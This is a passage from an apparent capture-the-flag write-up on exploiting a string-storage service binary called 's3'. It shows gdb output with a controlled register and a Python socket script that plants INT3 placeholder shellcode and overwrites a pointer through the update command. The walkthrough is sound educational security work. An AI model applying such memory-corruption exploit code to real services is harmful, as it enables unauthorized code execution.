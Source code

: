 s.close()
{% endhighlight)

After running this (and careful debugging of the script) I got a coredump:

{% highlight bash)
$ python ./amaz.py
Welcome to Amazon S3 (String Storage Service)

    c <type> <string> - Create the string <string> as <type>
                        Types are:
                            0 - NULL-Terminated String
                            1 - Counted String
    r <id>            - Read the string referenced by <id>
    u <id> <string>   - Update the string referenced by <id> to <string>
    d <id>            - Destroy the string referenced by <id>
    x                 - Exit Amazon S3


[+] first location = 0x00b10030
[+] second location = 0x00b10050
bas@tritonal:~/documents/s3 writeup$ gdb ./s3 core
...snip...
gdb-peda$ i r
rax            0x41414141   0x41414141
{% endhighlight)

Good, we have control over ```rax```. Now let's use this to dereference the pointer to the first string:

{% highlight python)
s.send('u ' + str(p_tmp) + ' ' + struct.pack('>L', p_shellcode-0x10) + '\n')
{% endhighlight)

Which obviously still crashes, because now the binary executes:

{% highlight bash)
#0  0x0000000021465443 in ?? ()
{% endhighlight)

Which obviously contains no data, nor any code. But let's give it a proper pointer, shall we? And while I'm at it, I'll set the shellcode to ```INT3```. The stack is executable, so this should work!

{% highlight python)
#!/usr/bin/python

from socket import *
import time, re, struct


def getID(data):
    match = re.search(r'(\d.*)$', data.strip())
    if match:
        return int(match.group(1))

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 5333))

# banner
print s.recv(1024)

# send first string. this will be our shellcode
s.send('c 0 \xCC\xCC\xCC\xCC\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_shellcode = getID(data)

print '[+] shellcode = 0x{0:08x}'.format(p_shellcode)
